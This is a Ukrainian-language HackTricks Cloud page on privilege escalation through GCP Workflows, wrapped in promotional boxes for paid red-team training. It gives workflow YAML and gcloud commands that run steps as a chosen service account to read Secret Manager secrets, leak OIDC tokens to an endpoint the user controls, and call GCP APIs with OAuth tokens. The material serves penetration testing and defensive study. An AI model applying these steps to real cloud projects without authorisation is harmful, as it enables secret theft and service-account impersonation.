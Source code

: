 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Основна інформація:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Наскільки мені відомо, неможливо отримати shell з доступом до кінцевої точки метаданих, що містить облікові дані SA, пов'язані з Workflow. Однак, можливо зловживати дозволами SA, додаючи дії для виконання всередині Workflow.

Можливо знайти документацію по коннекторам. Наприклад, це [**сторінка конектора Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** У бічній панелі можна знайти кілька інших конекторів.

А ось приклад конектора, який друкує секрет:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Оновлення з CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Якщо ви отримали помилку, наприклад, `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, просто **почекайте хвилину і спробуйте знову**.

Якщо у вас немає доступу до вебу, можливо, ви зможете запустити та побачити виконання Workflow за допомогою:

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Ви також можете перевірити вихідні дані попередніх виконань, щоб знайти чутливу інформацію
{% endhint %}

Зверніть увагу, що навіть якщо ви отримаєте помилку, наприклад, `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` через те, що у вас немає цього дозволу, робочий процес був згенерований.

### Витік OIDC токена (та OAuth?)

Згідно з [**документацією**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), можливо використовувати кроки робочого процесу, які надсилають HTTP запит з токеном OAuth або OIDC. Однак, як і в випадку з [Cloud Scheduler](gcp-cloudscheduler-privesc.md), HTTP запит з токеном Oauth повинен бути до хоста `.googleapis.com`.

{% hint style="danger" %}
Отже, **можливо витікати OIDC токен, вказуючи HTTP кінцеву точку**, контрольовану користувачем, але для витоку **OAuth** токена вам **потрібен обхід** для цього захисту. Однак ви все ще можете **контактувати з будь-яким GCP API, щоб виконувати дії від імені SA**, використовуючи або конектори, або HTTP запити з токеном OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

З цією дозволом замість `workflows.workflows.create` можливо оновити вже існуючий робочий процес і виконати ті ж атаки.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
